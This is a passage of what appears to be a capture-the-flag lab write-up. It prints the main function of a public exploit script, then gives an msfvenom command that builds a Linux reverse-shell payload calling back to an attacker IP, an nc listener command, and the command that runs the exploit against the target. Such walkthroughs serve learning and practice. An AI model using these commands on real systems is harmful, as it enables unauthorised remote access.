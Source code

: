 ```python

def main():
    if len(sys.argv) < 3:
        print(help)
        exit(1)

    ip, port = sys.argv[1].split(':')
    file = sys.argv[2]

    try:
        with open(file, 'rb') as f:
            payload = f.read().hex()
    except FileNotFoundError:
        print(f'[!] ERROR: File {file} not found')
        exit(1)

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((ip, int(port)))
        print('[+] Connected to target. Preparing exploit')
        exploit(sock, payload)
        print('[*] Pwned!! Check your listener')


if __name__ == '__main__':
    main()    
```

&#x20;First thing this script needs us to do is generate a reverse shell with msfvenom

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.18 LPORT=9001 PrependFork=true -o rev.bin
```

I had to first update my local host (LHOST) and I changed the port to 9001

![Reverse Shell Created](<../../../.gitbook/assets/image (23) (1).png>)

Next we need to set up a netcat listener to listen out on port 9001

```
nc -lvnp 9001
```

Next we need to run the exploit against the target machine and try and catch the shell

```
python3 50539.py 10.129.133.133:1337 rev.bin
```
